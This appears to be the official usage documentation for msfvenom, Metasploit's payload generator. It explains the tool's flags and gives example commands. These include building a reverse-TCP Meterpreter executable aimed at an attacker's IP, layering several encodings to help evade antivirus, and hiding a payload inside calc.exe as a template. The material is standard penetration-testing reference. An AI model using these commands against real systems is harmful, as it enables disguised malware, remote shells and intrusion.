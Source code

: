 Msfvenom is the combination of payload generation and encoding. It will replace msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
        --payload-options            List the payload's standard options
    -o, --out   <path>               Save the payload
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

* **The -f flag: Specifies the format of the payload**

Syntax example:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```


# How to encode a payload

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

# How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

# How to chain msfvenom output

The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom  -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
